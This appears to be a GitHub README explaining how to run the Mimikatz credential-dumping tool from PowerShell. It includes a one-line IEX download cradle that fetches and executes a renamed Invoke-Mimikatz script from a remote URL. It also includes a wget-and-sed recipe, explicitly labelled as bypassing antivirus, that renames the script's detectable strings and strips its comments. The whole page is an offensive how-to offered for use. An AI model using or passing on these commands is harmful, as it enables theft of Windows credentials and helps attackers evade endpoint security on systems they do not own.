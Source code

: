 # Download Mimikatz web with Powershell

mimikatz 2.1.1 (x64) built on Aug  3 2018

OK for Win 10 (v1803)

Powershell as Administrator

    Import-Module .\Invoke-Mimidogz.ps1
    Invoke-Mimikatz -Command "privilege::debug"

or via web:

    IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mttstt/mimi/master/Invoke-Mimidogz.ps1');Invoke-Mimidogz -Command "privilege::debug" 

https://github.com/gentilkiwi/mimikatz/issues/83

Autentication proxy for powershell
(New-Object System.Net.WebClient).Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# Script to obfuscate mimikatz and bypass AV
    
    wget https://raw.githubusercontent.com/EmpireProject/Empire/7a39a55f127b1aeb951b3d9d80c6dc64500cacb5/data/module_source/credentials/Invoke-Mimikatz.ps1
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
    sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
